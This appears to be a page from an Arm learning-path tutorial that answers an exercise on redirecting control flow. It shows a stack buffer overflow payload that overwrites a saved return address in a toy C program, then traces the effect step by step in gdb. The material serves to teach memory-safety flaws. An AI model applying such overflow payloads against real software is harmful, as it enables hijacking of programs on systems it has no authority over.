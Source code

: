 ```yaml
---
title: Redirect control flow - answer to the exercise
weight: 6

### FIXED, DO NOT MODIFY
layout: learningpathall
---
```



One string that could be a solution to exercise 3 at the end of the previous
section is:

```
$'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
```

We created this string by:

1. First filling the string with arbitrary characters for bytes 0 till 15.

2. Starting at byte 16, we fill in the address we want the return address to
   take. One special consideration to take is that we are working on a
   little-endian target. Therefore, we have to reverse the order of the bytes
   of the address in the string.

Let's see if it works:

```bash { command_line="root@7a8fb34f810e:/armlearningpaths|2-30" }
./redirect1 $'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
0123456789012345
```

Success! The program no longer prints the string
`"The string on the command line was: "`!

Time for a little celebration: 🎉

Now let's check in detail by stepping through the program that this is working
as we expect:

```bash { command_line="root@7a8fb34f810e:/armlearningpaths|2-30" }
gdb --args ./redirect1 $'0123456789012345\x20\x08\xaa\xaa\xaa\xaa\x00\x00'
GNU gdb (Ubuntu 12.1-0ubuntu1~22.04) 12.1
Copyright (C) 2022 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "aarch64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./redirect1...
```

```text { output_lines = "2-30" }
(gdb) break f
Breakpoint 1 at 0x7e4: file redirect1.c, line 8.
```

```text { output_lines = "2-30" }
(gdb) run
Starting program: /armlearningpaths/redirect1 0123456789012345\
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/aarch64-linux-gnu/libthread_db.so.1".

Breakpoint 1, f (src=src@entry=0xfffffffff927 "0123456789012345 \b\252\252\252\252") at redirect1.c:8
8           strcpy(buffer, src);
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
=> 0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
   0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
   0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) x/4gx $sp
0xfffffffff570: 0x0000fffffffff728      0x0000000000000002
0xfffffffff580: 0x0000fffffffff590      0x0000aaaaaaaa0814
```

We see that before the buffer overflow in `strcpy` is executed, the stored value
of `x30` on the stack is as it should be: `0xaaaaaaaa0814`.

```text { output_lines = "2-30" }
(gdb) nexti 2
9           return buffer[2];
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
   0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
=> 0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
   0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) x/4gx $sp
0xfffffffff570: 0x0000fffffffff728      0x3736353433323130
0xfffffffff580: 0x3534333231303938      0x0000aaaaaaaa0820
```

After the buffer overflow has happened in `strcpy`, the stored value of `x30` on
the stack has changed indeed to the value `oxaaaaaaaa0820`.

```text { output_lines = "2-30" }
(gdb) nexti 3
0x0000aaaaaaaa07f8      9           return buffer[2];
```

```text { output_lines = "2-30" }
(gdb) disass f
Dump of assembler code for function f:
   0x0000aaaaaaaa07d4 <+0>:     sub     sp, sp, #0x20
   0x0000aaaaaaaa07d8 <+4>:     stp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07dc <+8>:     add     x29, sp, #0x10
   0x0000aaaaaaaa07e0 <+12>:    mov     x1, x0
   0x0000aaaaaaaa07e4 <+16>:    add     x0, sp, #0x8
   0x0000aaaaaaaa07e8 <+20>:    bl      0xaaaaaaaa0680 <strcpy@plt>
   0x0000aaaaaaaa07ec <+24>:    ldp     x29, x30, [sp, #16]
   0x0000aaaaaaaa07f0 <+28>:    ldrb    w0, [sp, #10]
   0x0000aaaaaaaa07f4 <+32>:    add     sp, sp, #0x20
=> 0x0000aaaaaaaa07f8 <+36>:    ret
End of assembler dump.
```

```text { output_lines = "2-30" }
(gdb) stepi
main (argc=<optimized out>, argv=<optimized out>) at redirect1.c:16
16          puts(chars);
```

```text { output_lines = "2-30" }
(gdb) disass
Dump of assembler code for function main:
   0x0000aaaaaaaa07fc <+0>:     stp     x29, x30, [sp, #-32]!
   0x0000aaaaaaaa0800 <+4>:     str     x19, [sp, #16]
   0x0000aaaaaaaa0804 <+8>:     mov     x29, sp
   0x0000aaaaaaaa0808 <+12>:    ldr     x19, [x1, #8]
   0x0000aaaaaaaa080c <+16>:    mov     x0, x19
   0x0000aaaaaaaa0810 <+20>:    bl      0xaaaaaaaa07d4 <f>
   0x0000aaaaaaaa0814 <+24>:    adrp    x0, 0xaaaaaaaa0000
   0x0000aaaaaaaa0818 <+28>:    add     x0, x0, #0x850
   0x0000aaaaaaaa081c <+32>:    bl      0xaaaaaaaa0670 <puts@plt>
=> 0x0000aaaaaaaa0820 <+36>:    mov     x0, x19
   0x0000aaaaaaaa0824 <+40>:    bl      0xaaaaaaaa0670 <puts@plt>
   0x0000aaaaaaaa0828 <+44>:    ldr     x19, [sp, #16]
   0x0000aaaaaaaa082c <+48>:    mov     w0, wzr
   0x0000aaaaaaaa0830 <+52>:    ldp     x29, x30, [sp], #32
   0x0000aaaaaaaa0834 <+56>:    ret
End of assembler dump.
(gdb)
```

And indeed, rather than returning to `0xaaaaaaaa0814`, the instruction after the
function call `bl 0xaaaaaaaa07d4 <f>`; function `f` has returned to
`0xaaaaaaaa0820`, skipping the first call to `puts`.
